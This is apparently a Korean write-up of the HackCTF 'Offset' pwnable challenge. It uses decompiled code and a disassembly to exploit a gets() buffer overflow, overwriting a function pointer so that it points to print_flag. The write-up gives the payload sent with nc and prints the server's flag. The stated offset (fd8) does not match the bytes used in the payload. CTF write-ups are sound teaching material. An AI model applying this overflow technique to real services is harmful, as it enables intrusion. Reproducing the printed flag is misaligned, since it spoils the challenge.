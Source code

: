 # Offset

---

`main()`의 코드는 다음과 같다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[3]; // [esp-27h] [ebp-27h]
  int *v5; // [esp-Ch] [ebp-Ch]

  v5 = &argc;
  setvbuf(stdout, (char *)&dword_0 + 2, 0, 0);
  puts("Which function would you like to call?");
  gets(v4);
  select_func(v4);
  return 0;
}
```

`gets()`에서 bufferoverflow가 일어난다. 때문에 `main()`의 ret address를 조작하여 다음 함수로 수정하면 익스가 가능할 것이다.

```c
int print_flag()
{
  char i; // al
  FILE *v2; // [esp-Ch] [ebp-Ch]

  puts("This function is still under development.");
  v2 = fopen("flag.txt", "r");
  for ( i = _IO_getc(v2); i != -1; i = _IO_getc(v2) )
    putchar(i);
  return putchar(10);
}
```

하지만 PIE 보호기법이 걸려 있어서 해당 방법을 사용하기 위해서는 libc base를 lick하여야만 한다.

```gdb
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

---

**[풀이참조]**

select_func함수에서 코드를 보자.
```gdb
    gdb-peda$ pd select_func
    Dump of assembler code for function select_func:
       0x0000077f <+0>: 	push   ebp
       0x00000780 <+1>: 	mov ebp,esp
       0x00000782 <+3>: 	push   ebx
       0x00000783 <+4>: 	sub esp,0x34
       0x00000786 <+7>: 	call   0x5b0 <__x86.get_pc_thunk.bx>
       0x0000078b <+12>:	add ebx,0x182d
       0x00000791 <+18>:	lea eax,[ebx-0x190b]
       0x00000797 <+24>:	mov DWORD PTR [ebp-0xc],eax
       0x0000079a <+27>:	sub esp,0x4
       0x0000079d <+30>:	push   0x1f
       0x0000079f <+32>:	push   DWORD PTR [ebp+0x8]
       0x000007a2 <+35>:	lea eax,[ebp-0x2a]
       0x000007a5 <+38>:	push   eax
       0x000007a6 <+39>:	call   0x550 <strncpy@plt>
       0x000007ab <+44>:	add esp,0x10
       0x000007ae <+47>:	sub esp,0x8
       0x000007b1 <+50>:	lea eax,[ebx-0x1675]
       0x000007b7 <+56>:	push   eax
       0x000007b8 <+57>:	lea eax,[ebp-0x2a]
       0x000007bb <+60>:	push   eax
       0x000007bc <+61>:	call   0x4d0 <strcmp@plt>
       0x000007c1 <+66>:	add esp,0x10
       0x000007c4 <+69>:	test   eax,eax
       0x000007c6 <+71>:	jne 0x7d1 <select_func+82>
       0x000007c8 <+73>:	lea eax,[ebx-0x1864]
       0x000007ce <+79>:	mov DWORD PTR [ebp-0xc],eax
       0x000007d1 <+82>:	mov eax,DWORD PTR [ebp-0xc]
       0x000007d4 <+85>:	call   eax
       0x000007d6 <+87>:	nop
       0x000007d7 <+88>:	mov ebx,DWORD PTR [ebp-0x4]
       0x000007da <+91>:	leave  
       0x000007db <+92>:	ret
    End of assembler dump.
```
`select_func()+85`에서 call eax를 할 때, eax값에 `print_flag()`의 offset이 담겨있도록 하면 된다. 그 offset은 fd8이고, 입력을 받는 공간인 ebp-0x2a와 ebp-0xc는 30bytes떨어져 있으므로 다음과 같이 payload를 구성하면 된다.

**[dummy 30bytes]+0xfd8**
```bash
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/8.Offset$ (python -c "print 'A'*30+'\xd8\x06'";cat) | nc ctf.j0n9hyun.xyz 3007
    Which function would you like to call?
    This function is still under development.
    HackCTF{76155655017129668567067265451379677609132507783606}
```
**flag: HackCTF{76155655017129668567067265451379677609132507783606}**


